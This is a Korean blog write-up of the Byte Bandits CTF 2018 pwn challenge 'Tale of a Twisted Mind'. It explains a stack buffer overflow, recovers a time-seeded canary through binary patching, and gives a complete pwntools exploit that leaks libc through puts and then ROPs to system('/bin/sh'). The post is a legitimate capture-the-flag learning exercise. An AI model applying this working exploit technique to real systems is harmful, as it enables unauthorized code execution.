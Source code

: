 ```yaml
---
layout: post
title: ! "[Byte Bandits] CTF Tale of a Twisted Mind Writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - ByteBanditsCTF2018
  - MyriaBreak
---
```


Pwn문제를 뭘 풀까 찾다가 2달전에 했던 `Byte Bandits CTF 2018`에서 봤던 문제를 풀어보기로 했다.
`Tale of a Twisted Mind`라는 문제로 CTF 당시에는 Pwnable에 익숙하지 않은지라 풀지 못했으나 지금은 어느정도 개념이 잡혔고, 문제점수 또한 250점으로 난이도가 적당할 거 같아서 풀어보기로 하였다.

<!--more-->

```
We all know how intelligent Layat is... He says that since everyone knows how gcc programs are protected, he set out to protect them by his own secret way.

But Alas! Even the compiler asked "Art Though Dumb?"

nc 34.218.199.37 6000
```

문제는 위와 같고, 바이너리 파일과 라이브러리를 주므로 이걸 분석하면 된다.
당연하지만 현재 서버는 닫혔고, 라이브러리를 주긴했으나 그냥 로컬기준으로 해서 문제를 풀겠다.(물론 LD_PRELOAD로 설정해줘도 되긴하다.)

먼저 `checksec`을 이용해 어떤 보호기법들이 적용되어있는지 살펴보겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_01.PNG)  

`32bit`이고 `Canary`와 `NX`가 걸려있어 매우 어려울 것 같은 느낌이다.
아직 뭘 해야할지 잘 모르겠으니, 먼저 실행해보자.
실행하면 아래와 같이 모듈러연산을 하는 식을 던져주는데, 이게 풀어도 풀어도 계속 문제를 준다 ㅡㅡ;

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_02.PNG)  

일단 프로그램의 시작부분이 어떻게 시작하는 지 알았으니 이제 IDA를 사용해 저 부분을 한번 살펴보자.
저 문구 자체는 `String Window`에서 쉽게 찾을 수 있고, 거기서 거슬러 올라가면 이 프로그램의 흐름을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_03.PNG)  

여기서 사용되고 있고, 사용하고 있는 함수를 찾아보면 `sub_8048867()`에서 찾을 수 있고, 여기서 더 올라가보면 이 함수가 312번 호출되는 것을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_04.PNG)
![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_05.PNG)

그렇다면 저 함수를 312번 호출이 끝나면 무엇이 수행되는지 보자.
아래 그림을 통해 이 프로그램이 대략적으로 어떻게 돌아가는지 표현해보았다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_06.PNG)  

사용자에게 312번의 수식계산(Question)을 시키고, 이를 통과하게 되면 사용자가 원하는 값을 fgets를 통해 `buffer`에 쓸 수 있다.
그런데 여기서 buf에 해당하는 `s`는 `bp-14`의 위치에 있는데, fgets를 통해 `46`의 길이를 읽게되므로 `Buffer Overflow`가 일어나는 것을 알 수 있다.

```
  int v2; // eax@1
  int v3; // eax@2
  int result; // eax@3
  int v5; // eax@6
  int v6; // edx@9
  signed int i; // [sp+4h] [bp-18h]@1
  char s; // [sp+8h] [bp-14h]@8
  int v9; // [sp+18h] [bp-4h]@1
```

그럼 이제 bof를 이용해 함수 흐름을 조작해서 libc_base를 leak하고, 최종적으로는 ROP로 system("/bin/sh")를 수행할 수 있을 것이다!
... 인줄 알았지만 아직 `Canary`가 남아있었다 ...

다시 위에서 정리해놓은 것을 보면 `Canary`는 `sub_8048801()`에 의해 27~29줄에서 다시 설정된다.
그런데 이 `sub_8048801()`이란 함수가 이전에도 많이 쓰이는데... 바로 처음에 사용자에게 던져주는 수식의 난수생성에 쓰인다.

여러번 실행해보면 알겠지만 주어지는 수식의 값이 항상 다르다는 것을 알 수 있는데, IDA를 통해 hexray한 코드를 보면
이 random한 값은 `time(0)`에 의한 결과이다. time(0)의 값이 이 프로그램에서는 C함수에서 srand(seed)의 seed값으로 들어가는 것과 같은 효과가 여기서 나타난다.
그러므로 time(0)이 같다면 항상 같은 난수 생성이 가능하다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_07.PNG)  

time(0)의 값을 설정하고 랜덤한 값을 `312*2`번 뽑고, 한번 더 뽑게되면 우리가 원하는 `Canary`값을 얻을 수 있다.
그럼 이제 어떻게 할까?
Canary값을 구하기 위한 두가지 방법이 있다.

1. 해당 프로그램에서 Random값을 뽑아내는 알고리즘과 같은 알고리즘을 쓰는 소스를 구현한다.
2. 바이너리 code patch를 통해 우리가 원하는 Canary값을 출력하게 한다.

여기서는 후자, code patch를 이용해서 Canary값을 출력하는 방법을 사용하겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_08.PNG)  

위에서 Canary값을 설정하는 코드를 보면 Canary값을 설정한 후, bss영역(전역변수)의 dword_804AA28에 저장하게되는데
이 부분을 puts을 통해 출력하게 patch한다면 우리가 원하는 Canary값이 puts를 통해 출력될 것이다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_09.PNG)

자! 이제 원본파일인 `twisted`와 Canary를 출력하게 patch한 `twisted_modipy`를 동시에 실행한다면
time(0)의 값을 같으므로 같은 난수생성을 하게 되고, 같은 Canary값을 가질 것이다. 
이 때 우리는 `twisted_modipy`를 통해 Canary값을 얻을 수 있으므로, `twisted`에서 bof를 성공적으로 일으킬수 있다.

그럼 이제 코드짜는 일만 남았다..
계획은 일단 아래와 같다.

1. 먼저 puts.plt로 리턴하여 puts.got를 인자로 넣어 `puts_addr`을 구한다.
2. 위에서 구한 puts_addr을 이용해서 `libc_base`를 구한다.
3. `libc_base`를 통해 system함수와 "/bin/sh"의 주소를 구한다.
4. `system("/bin/sh")`를 실행한다.

급마무리하는 느낌이 있지만, 익스코드는 아래와 같다.

```
from pwn import *
import string

#context.log_level = 'debug'

elf = ELF("./twisted")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

conn = process("./twisted", env={"LD_PRELOAD":"libc.so.6"})
patched = process("./twisted_modify", env={"LD_PRELOAD":"libc.so.6"})

for i in range(0,312):
	Equation = conn.recvuntil("=")
	patched_Equation = patched.recvuntil("=")
	patched.recvline()
	conn.recvline()
	if not (Equation == patched_Equation):
		break
	op1, op2 = Equation[:-1].split("%")
	result = int(op1) % int(op2)
	conn.sendline(str(result))
	patched.sendline(str(result))

patched.recvline()
canary = patched.recv(4)
patched.close()
print("")

log.info("canary : 0x%x\n" % u32(canary))

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

fgets_sbuf = 0x8048979
bss = 0x804A800

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(puts_plt)
payload += p32(fgets_sbuf)
payload += p32(puts_got)

conn.recvuntil(":")
conn.send("a")	## getchar != '\n'
conn.sendline(payload)

conn.recvline()
puts_addr = conn.recv(4)
puts_sym = libc.symbols['puts']

libc_base = u32(puts_addr)-puts_sym
system_offset = 0x40310
bin_sh_offset = 0x162d4c
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info("base_libc   : 0x%x" % libc_base)
log.info("puts_addr   : 0x%x" % u32(puts_addr))
log.info("system_addr : 0x%x" % system_addr)
log.info("bin_sh_addr : 0x%x" % bin_sh_addr)

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(system_addr)
payload += "BBBB"
payload += p32(bin_sh_addr)

conn.sendline(payload)
conn.interactive()

```

위 파이썬 익스코드를 실행하면 Shell을 획득할 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_10.PNG)  

### *후기

재미있는 문제였다. 일단 seed값을 똑같이 설정해서 같은 랜덤값을 얻는 문제를 실제로 풀어본 것이 처음이였다.

뭐... 그 만큼 삽질을 많이해서 굉장히 시간을 많이 잡아먹었지만 ㅡㅡ;

일단 `while(getchar() == 10) ;` 부분이 당연히 버퍼를 비워주기 위한 코드인줄 알아서 익스할때 익스가 제대로 되지않아서 많은 시간을 잡아먹었고,

최근에 execve() 함수 안에 "/bin/sh"를 호출해주는 부분으로 바로 뛰어 쉘을 한방에 띄울 수 있다는 `oneshot gadget`이란 것을 알게 되어 이 원샷가젯을 사용하려다가 굉장히 많은 시간을 잡아먹었다.
일단 원샷가젯에 대한 결론을 말하자면... 32bit 바이너리라서 원샷가젯이 안먹힌다;; 64bit에서는 정상적으로 사용가능하므로 64bit 익스에만 사용하도록 하자.

그래도 삽질한 만큼 많은 걸 배운것 같다. 이상 마무리~

